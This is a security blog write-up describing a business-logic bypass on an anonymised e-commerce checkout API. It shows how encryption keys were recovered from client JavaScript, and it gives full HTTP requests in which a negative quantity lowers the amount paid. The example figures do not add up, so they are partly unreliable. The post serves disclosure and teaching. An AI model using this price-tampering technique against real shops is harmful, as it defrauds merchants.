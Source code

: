 ```yaml
---
title: "Exploiting Business Logic Error: Price Manipulation"
date: 2023-04-12 12:00
---
```


This blog discusses the exploitation of a business logic error that allows users to manipulate prices and pay less for the products and services offered by the target company.

## Target Background
The target of this analysis is a web application functioning as an e-commerce platform. It facilitates online purchases of various products and services by users.

## Overview
The Target company previously disclosed a vulnerability report regarding a specific issue: "hackers were able to manipulate the payment amount during the checkout/order process." To understand the application's fix for this vulnerability, I attempted the same steps to examine the implemented validation mechanisms.

## Reconnaissance
- Hosted on AWS
- Utilizes React for web application development
- Mobile application version is also available
- All application requests and responses are encrypted

## Finding the Encryption Key
Upon inspecting the application traffic, I discovered that the JSON payloads in requests and responses were encrypted. To manipulate or interact with these encrypted payloads, I needed to locate the encryption and decryption keys.

During my analysis of the JavaScript files, I identified the encryption key, the encryption algorithm, the mode, and the initialization vector. Armed with this information, I used online encryption tools to encrypt the payloads.

## Playing with fire🔥
I attempted to modify the price parameter in the request, but the application's validation mechanism prevented any successful manipulation. The amount to be paid was validated against a salted hash that was associated with the purchase order.

### Actual Request and Response

### Request

```http
POST /api/v1/checkout HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "10",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

### Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "10",
  "amount_to_be_paid": "100",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

The above request represents a checkout request sent to the server to facilitate payment for a purchase order. To address the previously exploited price manipulation vulnerability, the developer implemented an additional parameter named `saltedhash`.

## Bypass
During my exploration of the application flow and requests, I decided to conduct a deeper investigation of the `checkout` request. I noticed a parameter called `quantity`, which was responsible for creating orders based on the desired quantity specified by customers. I attempted to modify this value to a negative number.

### Manipulated Request

```http
POST /api/v1/checkout HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "-5",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

Upon sending the request with a negative value for the `quantity` parameter, the server responded by adjusting the amount to be paid accordingly. The lack of validation on the `quantity` parameter allowed negative values to be accepted. As a result, the backend calculation for the amount to be paid was based on the per-quantity price and the number of quantities in the cart.

### Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "-5",
  "amount_to_be_paid": "6",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

By changing the `quantity` value to a negative number, it was possible to pay a reduced amount for the orders placed.

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
